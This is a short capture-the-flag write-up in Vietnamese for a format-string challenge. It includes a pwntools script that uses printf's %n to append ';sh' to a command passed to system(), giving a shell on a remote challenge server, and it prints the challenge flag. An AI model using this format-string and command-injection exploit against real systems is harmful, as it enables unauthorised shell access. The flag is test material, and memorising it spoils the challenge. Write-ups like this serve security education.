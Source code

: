có bug FMT ở đây

![image](https://github.com/gookoosss/CTF/assets/128712571/347b3a53-6997-4394-b3bc-31a59bc74979)

system(cmd) nên ta xem cmd là gì

![image](https://github.com/gookoosss/CTF/assets/128712571/5cbeea0f-19ef-42e7-b783-e410cc513530)

1 lệnh echo, lợi dụng fmt ta có thể ghi đè thêm ';sh' vào cuối cmd và lấy được shell

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./format")
context.binary = exe

# p = process([exe.path])
# gdb.attach(p, gdbscript = '''
# b*main+94
# c
# ''')

# input()

p = remote('103.162.14.116', 12001)

cmd = 0x404060 + 0x55
need = 0x68733b
payload  = f'%{need}c%10$n'.encode()
# payload  += f'%{0x10000}c%11$hn'.encode()
# # payload  += f'%{need << 16 & 0xffff}c%11hn'
payload = payload.ljust(0x10)
payload += p64(cmd)
# payload += p64(0x404060 + 2)
p.sendline(payload)

# KCSC{F1rs1_Pr0b13m_w1Th_pR1Ntf}

p.interactive()
```
## Flag 
KCSC{F1rs1_Pr0b13m_w1Th_pR1Ntf}
